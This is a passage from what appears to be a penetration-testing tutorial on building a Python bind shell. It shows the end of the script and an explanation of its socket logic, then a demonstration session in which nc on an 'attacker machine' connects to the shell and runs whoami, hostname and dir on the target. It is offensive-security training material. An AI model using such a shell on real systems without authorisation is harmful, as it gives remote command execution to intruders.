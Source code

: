```python
        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

Given that we will be sending this to our client, we will improve on code quality and make it more reliable. Nevertheless, first, let us analyze it.

The code consists of two functions so far: a wrapper function for executing commands on the system and one main function that contains all the logic thrown into one place. This is less than ideal. The main function sets up a socket, binds it to `0.0.0.0` (i.e., all available interfaces) and the desired port. It is then configured to allow at most four unaccepted connections before it starts refusing connections anymore - the `listen` function configures this. The socket then accepts new incoming connections. This is a so-call `blocking call`, which means the code will halt at this line of code and wait for a connection to be made. When a connection is established, the `accept` call returns two things that we store in the variables `client_socket` and `address`.

Many things happen in the while loop, so let us break it down into smaller pieces. First, these are our goals:

-   receive all of the incoming bytes from the connected client (our attacker machine),
-   convert the incoming bytes to a `cmd` string,
-   close down the connection if `cmd` is "exit",
-   otherwise execute the command locally and send back the output

Notice that we remove the last byte of the `cmd` string. This is a newline character stemming from hitting enter when typing the command.

When we run this script on our target machine, we can use `nc` on our attacker machine to connect to the bind shell and gain remote code execution:

#### Starting the Bind Shell

```cmd-session
C:\Users\Birb\Desktop\python> python bindshell.py --port 4444
```

#### Connecting to the Bind Shell

	nc 10.10.10.10 4444 -nv

```shell-session
(UNKNOWN) [10.10.10.10] 4444 (?) open

whoami
localnest\birb

hostname
LOCALNEST

dir 
Volume in drive C has no label.
 Volume Serial Number is 966B-6E6A

 Directory of C:\Users\Birb\Desktop\python

20-03-2021  21:22    <DIR>          .
20-03-2021  21:22    <DIR>          ..
20-03-2021  21:22               929 bindshell.py
               1 File(s)            929 bytes
               2 Dir(s)  518.099.636.224 bytes free
exit
```